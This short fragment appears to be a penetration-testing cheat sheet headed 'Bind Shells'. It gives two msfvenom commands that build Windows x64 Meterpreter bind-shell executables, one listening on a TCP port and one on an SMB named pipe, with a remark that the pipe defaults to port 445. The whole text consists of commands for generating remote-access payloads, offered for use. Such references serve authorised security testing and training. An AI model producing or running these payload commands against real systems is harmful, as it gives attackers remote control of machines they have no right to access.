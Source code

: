 # Bind Shells

1. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f exe -o met-x86-64.exe`

For the SMB pipe the default for LPORT will always be port **445** 

`$ msfvenom -p windows/x64/meterpreter_bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o met-x86-64.exe`